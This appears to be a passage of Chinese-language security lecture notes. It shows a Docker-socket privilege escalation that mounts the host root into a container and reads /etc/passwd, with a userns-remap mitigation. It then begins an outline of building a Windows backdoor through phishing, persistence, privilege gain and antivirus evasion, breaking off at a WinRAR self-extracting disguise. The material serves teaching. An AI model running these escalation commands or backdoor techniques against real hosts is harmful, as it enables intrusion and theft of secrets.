 在裡面架設一個新的 container ，同時把 host 的 root 路徑 `/` 直接 mount 到新 container 的資料夾 `/test` 裡面後，開啟新 container 的 shell。

```bash
docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
```

這時會出現 `test` 資料夾，裡面就是 host 的 root 路徑，此時入侵者已經可以在這個新的 container 上，去 access host 裡面的所有檔案及機密資訊。

```bash
cd /test && cat /etc/passwd
```

```bash
dockerd --userns-remap="evil:evil" # This limits the capabilities of evil user
```

## Reference

1. [https://www.netsparker.com/blog/web-security/privilege-escalation/](https://www.netsparker.com/blog/web-security/privilege-escalation/)
2. [https://docs.docker.com/engine/security/userns-remap/](https://docs.docker.com/engine/security/userns-remap/)
3. [https://www.youtube.com/watch?v=MnUtHSpcdLQ](https://www.youtube.com/watch?v=MnUtHSpcdLQ)
4. [https://flast101.github.io/docker-privesc/](https://flast101.github.io/docker-privesc/)
5. [https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html](https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html)
6. [https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a](https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a)
7. [https://www.datadoghq.com/container-report/](https://www.datadoghq.com/container-report/)
8. 

# Windows Backdoor

這其實是一種非常古典的惡意程式。其最終目的便是能在用戶端執行並取得我們想要的結果並能夠在伺服器端獲取這些資料。

其流程大致如下：

1. 建立伺服器，監聽來自特定port
2. 引誘受害者執行後門
3. 後門在cilent跟server間建立連線
4. server端傳輸命令
5. client端執行我們所想要的命令
6. 在server端獲取結果

而想要順利的部署後門，則需要下列四項基本的概念

- 釣魚：引誘使用者執行我們的後門。如偽裝成其他受信任的程式，或者是提供有吸引力的內容。
- 持久化：如何長久的維持這個後門在cilent端正常的運行
- 獲取權限：在windows上，主動的嘗試取得管理者權限。或者是讓受害者給予。
- 躲避偵測：使受害者無法感知到後門的存在。並嘗試躲避防毒軟體或防火牆

## 釣魚

對於此類後門程式來說，如何讓受害者心甘情願的上鉤可能是最為關鍵的一步，在DEMO中我使用的是很老套的偽裝成其他種類的檔案。利用WINRAR知名的自解壓縮設定可以簡單的完成這一步。

